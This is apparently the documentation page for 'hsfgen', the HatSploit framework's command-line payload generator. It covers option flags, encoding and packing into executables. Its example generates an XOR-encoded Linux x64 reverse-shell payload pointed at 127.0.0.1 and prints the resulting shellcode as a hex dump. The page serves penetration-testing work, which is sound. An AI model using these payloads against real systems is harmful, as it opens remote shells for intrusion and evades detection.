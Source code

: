 ```yaml
---
layout: default
title: Using hsfgen
parent: Getting started
nav_order: 9
---
```


HatSploit Framework has a native command-line payload generator called `hsfgen`. It is packaged by default with all other HatSploit utilities.

## Command-line Options

```
usage: hsfgen [-h] [-p PAYLOAD] [-e ENCODER] [--platform PLATFORM]
              [--arch ARCH] [-f FORMAT] [--formats] [--payloads] [--encoders]
              [--options option1=value1,option2=value2,...] [-i ITERATIONS]
              [-b BADCHARS] [--pack] [--implant] [-o OUTPUT] [-c CUSTOM]

Native HatSploit Framework advanced payload generator.

optional arguments:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        HatSploit payload.
  -e ENCODER, --encoder ENCODER
                        HatSploit encoder.
  --platform PLATFORM   Payload platform.
  --arch ARCH           Payload architecture
  -f FORMAT, --format FORMAT
                        Generate payload with custom format.
  --formats             List all formats.
  --payloads            List all payloads.
  --encoders            List all encoders.
  --options option1=value1,option2=value2,...
                        Add options to encoder/payload.
  -i ITERATIONS, --iterations ITERATIONS
                        Number of encoding iterations.
  -b BADCHARS, --badchars BADCHARS
                        Bad characters to omit (e.g. \x00).
  --pack                Pack payload as ELF, PE or Mach-O depending on
                        platform.
  --implant             Output implant instead of complete payload.
  -o OUTPUT, --output OUTPUT
                        Output file to write payload to.
  -c CUSTOM, --custom CUSTOM
                        Specify custom payloads path.
```

### Generate payload

Options `-p` and `-e` must be used to generate specific payload and encode it with the specific encoder.

* `-i`, `--iterations` - encode payload `N` times.
* `-b`, `--badchars` - omit bad characters duing the generation.
* `--options` - set options in payload and/or encoder.
* `--pack` - pack payload into executable file (requires `--platform` and `--arch` to be set).
* `--implant` - generate only implant of the payload not the complete payload.
* `-f`, `--format` - select custom executable format.
* `-o`, `--output` - output result to the file.
* `-c`, `--custom` - specify custom directory with HatSploit payloads.

### Listing

* `--formats` - list all available executable formats (can be used with `--platform`).
* `--payloads` - list all available payloads (can be used with `--platform` and `--arch`).
* `--encoders` - list all available encoders (can be used with `--platform` and `--arch`).

## Examples

To generate simple `linux/x64/shell_reverse_tcp` payload and encode it with `x64/xor`:

```
hsfgen -p linux/x64/shell_reverse_tcp --options rhost=127.0.0.1,rport=8888 -e x64/xor
```

The output of this code will be:

```
[*] Attempting to generate linux/x64/shell_reverse_tcp...
[i] Payload will be encoded with x64/xor
[*] Writing raw payload...
00000000  48 31 c9 48 81 e9 b6 ff  ff ff 48 8d 05 ef ff ff |H1.H......H.....|
00000010  ff 48 bb 68 61 74 73 70  6c 36 34 48 31 58 27 48 |.H.hatspl64H1X'H|
00000020  2d f8 ff ff ff e2 f4 02  48 2c ea 1a 6e 69 5e 69 |-.......H,..ni^i|
00000030  3f 7b 76 38 fb 7e 8d 6a  61 56 cb b0 c4 34 5b 39 |?{v8.~.jaV...4[9|
00000040  29 fd 95 1a 7c 6c 5e 42  39 7b 76 1a 6f 68 7c 97 |)...|l^B9{v.oh|.|
00000050  af 1e 52 28 63 33 41 9e  0b 4f 2b e9 24 8d 1b 0a |..R(c3A..O+.$...|
00000060  08 1a 5c 03 04 36 67 20  e8 93 21 27 24 bf d2 67 |.....6g ..!'$..g|
00000070  64                                               |d               |
```

If you'd like to save it to the file call it with `-o`.

If you wish to pack it into `ELF` so it could be executed in the future, call `--pack --platform linux --arch x64`.